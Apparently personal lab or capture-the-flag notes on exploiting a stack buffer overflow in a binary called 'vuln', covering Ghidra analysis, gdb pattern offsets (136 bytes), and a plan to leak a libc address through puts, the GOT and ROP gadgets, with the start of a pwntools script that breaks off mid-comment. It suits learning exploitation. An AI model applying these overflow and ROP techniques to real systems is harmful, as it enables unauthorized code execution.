RUNPATH = the path of the libraries the binary wants to load and run

2. Open it in Ghidra
look into the main function (puts) - rename variables
look for the suspect function (scanf) - rename variables
&DAT_0040093a -> 2x click -> %c -> Retype global -> char[2]
see the buffer, after the scanf
see that if we input more than the buffer it gives a segmentation fault error

 3. Debuggin it with gdb
 `r` to run it
 (examine the results)
 `x/gx $rsp` (examine/8 bytes hexadecimal $pointer_to_stack) $rsp = scanf??
 `0x7fffffffdcd8: 0x4141414141414141`, that read instruction will put `0x41`... = A(16) in the rip but `0x41`... doesn't point to a valid area in memory isn't gonna execute the read instruction

We know we have to overflow it, we know we have control of the value on the stack that will eventually be put in the instruction pointer, configure out how many bytes it'll take before it gets to that instruction pointer

Using `pattern` (similar to metasploit), but before we have to go back to ghidra to configure out how many bytes we want to put in.
Since the allocated buffer is 112, we will put 200 (redounded to the hundreds)
`pattern create 200` (creates a "De Bruijn sequence" with 200 bytes)
run the program again with `r` and input that sequence
see that rsp is pointing to our string
`pattern offset $rsp`
```
[+] Found at offset 136 (little-endian search) likely
```
check if its overflowing: `pattern create 136`, run the program again with `r` and input that sequence with more A's to see that it is overflowing

# **Time to xploit**
ASLR changes the address but the offset stays the same
PLT (Procedure Linking Table) and GOT (Global Offset Table)
back to ghidra and we go to the scanf -> 2x click -> .plt (search for scanf) -> .got.plt section -> search for scanf
We want to find a way to print the value of the adress of scanf -> search for puts or printf (only function we have that we know the address of) -> will allow us to leak memory
(value after the scanf function is the GOT) we have a value inside our binary that we know  a libc address is gonna exist

ROPgadgets is sequence of instructions that end in a return instruction. 
We can use Ghidra (manual), or ropper / ropgadget (tools)
With ROPgadget: `ROPgadget --binary vuln`

script to leak the address:
```python
#!/usr/bin/env python3

from pwn import *

p = process('./vuln') #run the vulnerable program

offset = 136 #we discovered that with 'pattern offset $rsp'
junk = b"A" * offset #creating our payload that will overflow

# where do we jumpt to since we cant execute it off the stack
# way to print out the address

"""
Plan to leak an address:
- use puts
- supply arguments to puts
- we will use ROP to do this:
```